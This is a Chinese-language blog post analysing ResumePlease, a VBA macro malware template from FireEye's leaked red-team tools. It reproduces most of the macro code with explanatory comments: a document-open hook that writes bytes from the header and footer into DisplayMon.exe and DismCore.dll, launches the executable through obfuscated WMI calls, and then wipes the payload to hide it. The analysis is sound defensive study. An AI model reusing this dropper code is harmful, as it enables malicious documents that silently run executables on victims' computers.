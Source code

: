 ```yaml
---
title: ResumePlease宏恶意模板分析
date: 2021-05-15 10:32:58
tags: 恶意代码
---
```


简单的分析一下Fireeye之前泄漏的红队工具里面的ResumePlease。

注意，我说的简单分析真的是简单分析，并没有谦虚的意思。

<!--more-->

感觉好久没更博客了，都快不知道怎么新建文章了，五一放完假之后都在忙课堂展示，过程真的略操蛋，因为找到的一些样本都好难分析，换了好几个样本。

### 样本信息

样本基本信息：

> **MD5**            5e8343ce6c6e2894f46648c532b241e3
>
> **SHA1**           6339a5d6543343c868499acb6dd42e2d56e51391
>
> **SHA256**       1866449e8ad2c55240eafdf14fc835138ca3e99a7b180c2150cef047868f56cc
>
> **文件类型**       Visual Basic Script File
>
> **文件大小**        4449字节

这个文件我是从[MalShare](https://malshare.com)下载的。

这里推荐一下[奇安信威胁情报中心](https://ti.qianxin.com)是一个在线沙箱检测的网站，还挺好用的。



### 前置知识

[Tactics, Techniques and Procedures (TTPs) Utilized by FireEye’s Red Team Tools](https://www.picussecurity.com/resource/blog/techniques-tactics-procedures-utilized-by-fireeye-red-team-tools)

[FireEye红队工具失窃事件跟进分析](https://www.antiy.cn/research/notice&report/research_report/20201214.html)

上面这两篇文章里面都提到ResumePlease这个样本，根据这两篇文章里面的描述，ResumePlease是一个Microsoft Office宏恶意软件模板，它并不能单独执行，需要绑定有恶意载荷的文件，才能生成恶意文件。

VBA（Visual Basic for Applications）是Visual Basic的一种宏语言。主要能用来扩展Windows的应用程序功能，特别是Microsoft Office软件。

### 样本分析

#### Document_Open()

首先是`Document_Open()`函数，定义文档打开后的一些操作。

```
Sub Document_Open()
 
'#
    writeOutHeader
    writeOutFooter
    DoStuff
    Cleanup
```

#### writeOutHeader()

（1）开始是一系列变量声明，Dim是VB中声明变量并分配存储空间的语句；

（2）之后就是构造文件路径dropPath，这里相当于创建了一个DisplayMon.exe文件，后续会对该文件进行写入操作；

（3）Office VBA官方文档中提到wdHeaderFooterPrimary的一些信息和使用方法，strIn这里获取的是第一节的页眉，strln就是恶意payload；

（4）InStr函数将也页眉中获取的strIn通过';'进行分割，然后写入DisplayMon.exe文件中。

> 使用**标头**（索引）或**页脚**（索引），其中索引是**WdHeaderFooterIndex**常量之一（**wdHeaderFooterEvenPages**、 **wdHeaderFooterFirstPage**或**wdHeaderFooterPrimary**），返回一个**HeaderFooter**对象。

```
Sub writeOutHeader()
    On Error Resume Next
    Dim intFileNum As Integer
    Dim byteTemp As Byte
    Dim strByte1 As String
    Dim i, j, k As Double
    Dim strIn As String
    Dim blnDone As Boolean
    intFileNum = FreeFile
    Dim dropPath As String
    
    dropPath = Environ("LOCALAPPDATA") & "\DisplayMon.exe"
    ` Environ获取环境变量，这里是生成DisplayMon.exe程序

    Open dropPath For Binary As intFileNum
    ` 打开文件

    strIn = ActiveDocument.Sections(1).Headers(wdHeaderFooterPrimary).Range.Text
    ` ActiveDocument为office VBA编程接口 获取活动文档第一节的页眉
    blnDone = False
    i = 1
    j = 1

    Do While Not blnDone
        k = InStr(i + 1, strIn, ";")
        ` InStr函数：返回一个 **Variant **(Long) 值，指定一个字符串在另一个字符串中首次出现的位置。
        If k = 0 Then
            blnDone = True
        Else
            blnDone = False
            strByte1 = Mid(strIn, i + 1, k - i - 1)
            ' a = CLng(strByte1)
            Put intFileNum, , CByte(strByte1)
            ` put语法  Put [#]filenumber, [recnumber], varname  这里是将strIn中内容，循环写入DisplayMon.exe文件
            i = k
            strByte1 = ""
            j = j + 1
            End If
    Loop
    Close intFileNum
End Sub
```

writeOutFooter与writeOutHeader基本上一样的，只不过将文档第一节的页脚内容写入DismCore.dll文件中。

#### DoStuff()

Dostuff()函数就是用来调用Windows内置函数来允许之前生成的恶意文件DisplayMon.exe

```
Sub DoStuff()

    Const WHAT = 12
    blah = Environ("LOCALAPPDATA") & "\DisplayMon.exe"
    Set serveYa = GetObject("wi" & "nmg" & "mts:\\.\r" & "oot\ci" & "mv2")
    ` winmgmts:\\.\root\cimv2   遍历进程列表
    Set startYa = serveYa.Get("Wi" & "n32_Pr" & "ocessS" & "tartup")
    ` Win32_ProcessStartup  基于Windows的进程的启动配置
    Set whatYa = startYa.SpawnInstance_
    whatYa.ShowWindow = WHAT
    Set procYa = GetObject("wi" & "nmgmt" & "s:r" & "oot\ci" & "mv2:W" & "in32_P" & "rocess")
    res = procYa.Create(blah, Null, whatYa, processid)
    ` 运行DisplayMon.exe

End Sub
```

#### Cleanup()

Cleanup()函数就是将office文件里面的恶意载荷清空，这样有一定隐蔽性，用户再打开恶意office文件的时候也无法发现什么。

```
Sub Cleanup()

    ActiveDocument.Sections(1).Headers(wdHeaderFooterPrimary).Range.Text = ""
    ActiveDocument.Sections(1).Footers(wdHeaderFooterPrimary).Range.Text = ""
    ActiveDocument.Save

End Sub
```



这个文件只是一个模板，没有办法运行，本来想找一个相关的payload，但是搞完这个展示就懒了，不知道啥时候还会想起来弄。

还有就是不知道为什么安天分析报告里面强调是excel文件，感觉代码里面并没有体现这一点。

月底估计还有一个样本分析相关的博客。